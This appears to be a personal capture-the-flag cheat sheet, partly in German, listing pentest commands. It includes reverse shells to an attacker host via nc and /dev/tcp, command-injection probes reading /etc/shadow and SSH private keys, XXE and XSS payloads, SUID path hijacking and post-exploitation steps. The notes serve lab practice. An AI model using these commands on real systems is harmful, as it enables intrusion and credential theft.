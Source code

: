 # docs-ctf-cheatsheet
NMAP:
nmap -sC -sV -oA nmap/initial IPADRESS (standart)
nmap -p- -T5 -sC -sV -oA nmap/second IPADRESS (quick scan of all ports)

-A : Enables OS Detection, Version Detection, Script Scanning and Traceroute all in one
-p- : Enables scanning across all ports, not just the top 1000
-sC : Scan with default NSE scripts. Considered useful for discovery and safe
-sV : Attempts to determine the version of the service running on port
-oA [dir] all output to [dir]

NETCAT:
send data:
	reciever:
	nc -l -p 1234 > FILE.NAME       (sometimes netcat instead of nc!)
	sender:
	nc -w 3 DESTINATION 1234 < FILE.NAME

MSF:
search
	search …
send data
	upload /path/to/file
run exploit in background and enter the session
run -j
sessions
	sessions -i [session id]
get "normal" shell
	shell
move out of a session
	ctrl+z

HTTPSERVER:
send data:
	sender:
	python -m SimpleHTTPServer 8083
	reciever:
	curl IPADRESSSENDER:8083/FILE.NAME
	curl 10.10.14.145:8083/47502.py > hmm.py
	OR
	wget IPADRESSSENDER:8083/FILE.NAME

REVERSE SHELL:
1. setup listener on my machine:
nc -lvnp 8081
2. go to
http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
and try them out on target machine
easiest rs : ;nc -e /bin/bash

INTERACTIVE SHELL:
target:
	export RHOST=<IPADRESSATTACKER>
attacker:
	nc -lp 14445
target:
	bash -c 'bash -i &>/dev/tcp/$RHOST/14445 0<&1'
attacker (now on targetshell):
	python -c 'import pty; pty.spawn("/bin/bash")'
	OR
	python3 -c 'import pty; pty.spawn("/bin/bash")'

COMMAND INJECTION
Linux
whoami
id
ifconfig/ip addr
uname -a
ps -ef
cat /etc/passwd
cat /etc/shadow
cat /home/USERNAME/.ssh/id_rsa
Windows
whoami
ver
ipconfig
tasklist
netstat -an

CHECK IF SOMETHING IS EXECUTED
attacker:
	sudo tcpdump ip proto \\icmp -i tun0
target:
	ping [local tun0 ip] -c 1

BROKEN AUTHENTICATION:
password guessing/bruteforce
weak session cookies
reregistration of existing user “ admin” (with space) and gain all rights of “admin”
1. try register as randomname
2. if “randomname has already been taken” try register with “ randomname” and see what happens

XML EXTERNAL ENTITY (XXE):
try :
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
and:
<!DOCTYPE replace [<!ENTITY name "success"> ]>
 <userInfo>
  <firstName>xxe</firstName>
  <lastName>&name;</lastName>
 </userInfo>

XSS PAYLOADS:
Popup's (<script>alert(“Hello World”)</script>) - Creates a Hello World message popup on a users browser.
Writing HTML (document.write) - Override the website's HTML to add your own (essentially defacing the entire page).
XSS Keylogger (http://www.xss-payloads.com/payloads/scripts/simplekeylogger.js.html) - You can log all keystrokes of a user, capturing their password and other sensitive information they type into the webpage.
Port scanning (http://www.xss-payloads.com/payloads/scripts/portscanapi.js.html) - A mini local port scanner
test <img src=x onerror=alert(2)>


POST EXPLOITATION WINDOWS:

Get-WmiObject -Class win32_OperatingSystem (Power Shell)
run post/windows/gather/checkvm (Metasploit) - check if vm
run post/multi/recon/local_exploit_suggester (Metasploit)
run post/windows/manage/enable_rdp (Metasploit)
ipconfig
try migrate spoolsv.exe
getuid
sysinfo
getprivs
run autoroute -s [SUBNET IP] -n 255.255.255.0



Enummeration Scripts:
Local:
LinEnum
LinPEAS
WinPEAS
Remote:
	enum4linux [OPTIONS] [IP] - works for windows and linux SMB SAMBA


SMBClient:
smbclient //[IP]/[DIRECTORY] -U [USERNAME]

NFS:
sudo mount -t nfs [IP]:[tragetdirectory] /tmp/mount/ -nolock

SUID:
find SUID : find / -perm -u=s -type f 2>/dev/null

Exploit /usr/bin/menu with SUID :
	cd /tmp
	echo /bin/sh > curl
	chmod 777 curl
	export PATH=/tmp:$PATH
	/usr/bin/menu


DNS PROBLEM (for Hack The Box)
sudo nano /etc/hosts
add [IPADRESS] [DOMAIN], save and it should work!

SSH:
ssh-keygen -f [NAME]
	now i can write the [NAME].pub file content (exept for the last part with my USER@IP
and add “ssh-rsa “ before the key if not there) to the
/home/[USER]/.ssh/authorized_keys/
then ssh -i [NAME] [USER]@[IP]



PYTHON VIRTUAL ENVIRONMENT
	env init:
		python3 -m venv [NAME UMGEBUNG]
	env laden:
		source [NAME UMGEBUNG]/bin/activate
	packet installieren (in env):
		pip3 install [PACKET NAME]
	env exit:
		deactivate
	pip zeigt installierte packets:
		pip3 freeze

JAVA-VERSION ARCH LINUX
some programs run only with a certain jre, so you can use the following to set the default jre on your system:
sudo archlinux-java set java-8-openjdk/jre

TMUX:
	neue tmux session in gewünschter directory starten:
		tmux new -s [NAME]
	new  panel
CMD+B, c
rename panel
	CMD+B, ,
split panel vertical
	CMD+B, %
split panel horizontal
	CMD+B, “
navigate between panel
	CMD+B, pfeiltasten
resize panel
	CMD+B + pfeiltasten

GOBUSTER
./gobuster dir -u http://ADRESS/ -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt
maybe mit +x php

MYSQL
mysql -u [USER] -p'[PASSWORD]'